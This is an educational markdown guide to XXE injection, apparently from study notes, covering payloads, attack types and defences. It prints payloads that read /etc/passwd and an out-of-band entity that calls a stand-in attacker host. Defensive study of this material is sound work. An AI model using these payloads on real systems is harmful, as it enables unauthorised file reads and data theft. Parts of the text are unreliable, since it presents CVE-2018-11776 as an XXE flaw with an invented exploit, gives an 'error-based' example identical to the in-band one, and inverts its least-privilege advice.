

## XXE Injection: A Comprehensive Guide

### Introduction to XXE Injection

XML External Entity (XXE) injection is a type of attack that exploits the way an application processes XML input. This attack can lead to unauthorized data access, denial of service, or even remote code execution. The core issue arises when an application parses XML input without properly validating or sanitizing it, allowing an attacker to inject malicious XML content.

### Understanding XML Entities

Before diving into XXE injection, it's essential to understand what XML entities are. An XML entity is a named unit of data that can be referenced within an XML document. Entities can be defined internally within the document or externally via a URI. Here’s a basic example of an internal entity:

```xml
<!DOCTYPE foo [
  <!ENTITY xxe "External Entity Content">
]>
<root>
  <data>&xxe;</data>
</root>
```

In this example, `&xxe;` references the entity defined earlier in the DOCTYPE declaration. When parsed, the XML processor replaces `&xxe;` with "External Entity Content."

### External Entities and XXE Injection

External entities are defined using a URI, which can point to a local file or a remote resource. This is where XXE injection comes into play. By injecting a malicious external entity, an attacker can manipulate the XML parser to read arbitrary files or perform other actions.

#### Example of XXE Injection

Consider the following XML input:

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <data>&xxe;</data>
</root>
```

Here, the `SYSTEM` keyword indicates that the entity should be resolved using the provided URI. The URI `file:///etc/passwd` points to the `/etc/passwd` file on the server's filesystem. If the application allows arbitrary external entities and processes this XML input, the XML parser will attempt to read the contents of `/etc/passwd`.

### Why XXE Injection Matters

XXE injection can have severe consequences:

1. **Data Exfiltration**: Attackers can read sensitive files such as `/etc/shadow`, `/etc/passwd`, or any other file accessible by the application.
2. **Denial of Service**: By referencing large files or infinite loops, attackers can cause the XML parser to consume excessive resources.
3. **Remote Code Execution**: In some cases, XXE can be used to execute arbitrary commands on the server.

### Real-World Examples

#### CVE-2018-11776: Apache Struts XXE Vulnerability

In 2018, a critical XXE vulnerability was discovered in Apache Struts, affecting versions 2.3.5 to 2.3.34 and 2.5.0 to 2.5.16. The vulnerability allowed attackers to bypass security checks and execute arbitrary commands on the server.

**Example Exploit:**

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ 
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

This XML payload, when processed by the vulnerable Struts application, would read the contents of `/etc/passwd`.

### Types of XXE Injection

There are three main types of XXE injection:

1. **In-Band XXE Injection**
2. **Out-of-Band XXE Injection**
3. **Error-Based XXE Injection**

#### In-Band XXE Injection

In-band XXE injection occurs when the attacker can receive a direct response on the screen to the XXE payload. This is the most straightforward form of XXE injection, where the attacker's payload is processed and the result is displayed directly in the application's response.

**Example:**

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <data>&xxe;</data>
</root>
```

When this XML is processed, the contents of `/etc/passwd` will be included in the response.

#### Out-of-Band XXE Injection

Out-of-band XXE injection occurs when the attacker uses the XML parser to send data to a remote server controlled by the attacker. This type of attack is often used when the application does not display the results of the XXE payload directly.

**Example:**

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://attacker.com/log">
]>
<root>
  <data>&xxe;</data>
</root>
```

In this case, the XML parser will attempt to fetch the content from `http://attacker.com/log`, and the attacker can log the request to capture the data.

#### Error-Based XXE Injection

Error-based XXE injection relies on the XML parser generating errors that reveal information about the server. This type of attack is useful when the application does not return the actual content but instead returns error messages.

**Example:**

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <data>&xxe;</data>
</root>
```

If the XML parser encounters an error while processing this payload, it might return an error message containing the contents of `/etc/passwd`.

### How to Prevent / Defend Against XXE Injection

#### Detection

To detect XXE injection vulnerabilities, you can use automated tools such as:

- **OWASP ZAP**: A free, open-source tool for finding security vulnerabilities in web applications.
- **Burp Suite**: A comprehensive toolkit for web application security testing.

These tools can help identify potential XXE injection points by analyzing XML input and responses.

#### Prevention

To prevent XXE injection, follow these best practices:

1. **Disable External Entity Processing**: Ensure that your XML parser is configured to disable external entity processing. This can be done by setting the appropriate flags or configurations in your XML parsing library.

2. **Use Secure Libraries**: Use XML parsing libraries that are known to handle external entities securely. For example, in Java, you can use the `DocumentBuilderFactory` with the following settings:

    ```java
    DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
    dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
    dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
    dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
    dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
    ```

3. **Validate Input**: Always validate and sanitize XML input to ensure it does not contain malicious entities. Use regular expressions or dedicated XML validation libraries to enforce strict input rules.

4. **Least Privilege Principle**: Run your application with the least privilege necessary. Avoid running applications with elevated privileges such as root, as this can limit the damage an attacker can cause.

#### Secure Coding Practices

Here’s an example of how to securely parse XML input in Python:

```python
import defusedxml.ElementTree as ET

def parse_xml(xml_input):
    try:
        tree = ET.fromstring(xml_input)
        # Process the XML tree safely
    except ET.ParseError as e:
        print(f"Invalid XML: {e}")
```

In this example, `defusedxml.ElementTree` is used to parse XML input, which disables external entity expansion by default.

### Hands-On Practice

For hands-on practice with XXE injection, consider the following labs:

- **PortSwigger Web Security Academy**: Offers interactive challenges and tutorials on XXE injection.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing various web security attacks, including XXE injection.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is riddled with vulnerabilities, including XXE injection.

### Conclusion

XXE injection is a serious threat that can lead to significant security risks if not properly mitigated. By understanding the underlying mechanisms, recognizing the different types of XXE injection, and implementing robust prevention strategies, you can protect your applications from these attacks.

### Diagrams

#### XML Parsing Flow

```mermaid
sequenceDiagram
  participant User
  participant Application
  participant XMLParser
  participant Filesystem
  User->>Application: Send XML with &lt;!ENTITY&gt;
  Application->>XMLParser: Parse XML
  XMLParser--&gt;Filesystem: Read file (e.g., /etc/passwd)
  Filesystem--&gt;XMLParser: Return file content
  XMLParser--&gt;Application: Process file content
  Application--&gt;User: Display file content
```

#### XXE Injection Attack Chain



By thoroughly understanding and implementing these concepts, you can significantly enhance the security of your web applications against XXE injection attacks.

---
<!-- nav -->
[[07-What is an XXE Injection Vulnerability|What is an XXE Injection Vulnerability]] | [[Web Security (PortSwigger)/08-XXE Injection/01-XXE Injection Complete Guide/00-Overview|Overview]] | [[09-XXE Injection Complete Guide|XXE Injection Complete Guide]]
